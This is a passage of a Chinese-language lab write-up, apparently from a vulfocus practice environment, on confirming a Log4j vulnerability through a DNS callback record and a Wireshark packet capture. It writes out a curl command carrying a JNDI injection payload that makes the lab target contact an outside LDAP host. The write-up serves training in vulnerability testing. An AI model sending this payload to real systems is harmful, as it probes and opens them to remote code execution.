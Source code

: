   - 记录显示该域名被解析为 IP 地址 `219.141.176.11`，位置在北京，时间为 `2025-03-05 15:33:23`，验证了 Log4j 漏洞的存在。
  ![1741160054827](image/record/1741160054827.png)

#### [方法二] 使用抓包工具
1. **漏洞利用**
我们先在受害者主机上抓包，然后使用 Wireshark 分析抓到的数据包。
用攻击者主机构造攻击指令
```bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
```
![1741162286690](image/record/1741162286690.png)
抓包已经保存到 ``/home/kali/workspace/ctf-games/fofapro/vulfocus/capture.pcap``
![1741162087551](image/record/1741162087551.png)
可以看到 ``HTTP`` 请求包中包含恶意的 ``payload`` ，用于触发 ``Log4j 漏洞``